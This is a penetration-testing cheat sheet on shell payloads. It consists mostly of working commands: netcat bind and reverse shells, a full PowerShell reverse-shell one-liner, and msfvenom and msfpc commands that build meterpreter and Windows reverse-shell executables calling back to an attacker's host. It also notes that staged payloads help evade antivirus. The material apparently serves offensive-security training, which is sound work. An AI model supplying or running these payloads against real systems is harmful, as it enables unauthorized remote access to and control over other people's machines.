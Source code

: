 # Shell payloads

## Examples

### Windows

In some versions of netcat (including the `nc.exe` Windows version included with Kali at 
`/usr/share/windows-resources/binaries`, and the version used in Kali itself) there is a `-e` option which allows 
for executing a process on connection:

    nc -lvnp <port-number> -e /bin/bash

Connecting to the above listener with netcat would result in a bind shell on the target.

For a reverse shell, connect back with:

    nc <IP address attack machine> <port-number> -e /bin/bash

### Linux

On Linux, use this code to create a listener for a bind shell:

    mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

### Windows server

The standard one-liner PSH reverse shell:

```text
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Copy into a `cmd.exe` shell or another method of executing commands on a Windows server, such as a webshell. 

### MSFvenom

#### Stageless

Stageless payloads are denoted with underscores (`_`). A Linux 32bit stageless meterpreter payload:

    msfvenom -p linux/x86/meterpreter_reverse_tcp -f elf -o shell LHOST=<IP address attack machine> LPORT=<port-number>

#### Staged

Staged payloads are denoted with another forward slash (`/`). A staged meterpreter reverse shell for a 64bit Linux 
target:

    msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=<IP address attack machine> LPORT=<port-number>

To generate a Windows x64 Reverse Shell in an `.exe` format:

    msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<IP address attack machine> LPORT=<port-number>

### MSFPC

#### Drop cmd windows

A classic reverse shell payload (generating a payload with a `cmd` as the preferred shell for
Windows, setting the LHOST to the IP retrieved from the eth0 Ethernet interface of the Kali machine):

    $ msfpc cmd windows eth0
    
Two files are created, an executable payload by name of `windows-shell-staged-reverse-tcp-443.exe`, and a 
resource file named `windows-shell-staged-reverse-tcp-443-exe.rc`, useful for automating repetitive tasks in 
Metasploit. Resource scripts can chain series of Metasploit console commands and directly embed Ruby to do 
things such as call APIs, interact with objects in the database, and iterate actions.

#### Drop msf windows

    $ msfpc msf windows eth0

The payload is now set to a `windows/meterpreter/reverse_tcp`. 
The associated resource file can be executed with:

    msfconsole -q -r 'windows-meterpreter-staged-reverse-tcp-443-exe.rc'

When the payload is executed, the stager will request for other parts of the payload to be
sent over to the target server. These parts of the payload will be sent by payload handler
and the complete staged payload is delivered to the victim machine.

## Notes

### MSFvenom

MSFvenom is the one-stop-shop for all things payload related. The standard syntax for `msfvenom`:

    msfvenom -p <PAYLOAD> <OPTIONS>

* Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is 
executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any 
reverse shell code by itself. Instead, it connects to the listener and uses the connection to load the real payload, 
executing it directly and preventing it from touching the disk where it could be caught by traditional antivirus 
solutions. Thus, the payload is split into two parts -- a small initial stager, then the bulkier reverse shell 
code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the 
Metasploit `multi/handler`.
* Stageless payloads are more common. They are entirely self-contained in that there is one piece of code which, 
when executed, sends a shell back immediately to the waiting listener.

### MSFvenom payload creator

MSFvenom Payload Creator (MSFPC) is a wrapper to generate multiple types of payloads, based on users choice. 
The idea is to be as simple as possible (only requiring one input) to produce their payload.

    $ msfpc <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>)
    (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>)
    (<VERBOSE>)

* TYPE is the `-f` switch in msfvenom
* DOMAIN/IP is the LHOST option
* PORT is the LPORT option
* CMD/MSF is the type of shell dropped once the payload is executed on the target system.
* BATCH/LOOP to generate multiple payloads (multiple OS platforms) with a single command.

### Meterpreter shells

Meterpreter shells are completely stable, making them a very good thing when working with Windows targets. They 
also have a lot of inbuilt functionality, such as file uploads and downloads. If we want to use any of Metasploit's 
post-exploitation tools then we need to use a meterpreter shell.

The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain 
certification examinations, so it is a good idea to learn alternative methodologies just for that.

## Tools

MSFvenom Payload Creator is preinstalled in Kali. On other *nix, install it with:

    git clone https://github.com/g0tmi1k/mpc

Set execute permission on the `msfpc.sh` file:

    cd mpc/
    chmod +x msfpc.sh

Start her up with:

    ./msfpc.sh

## Resources

* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)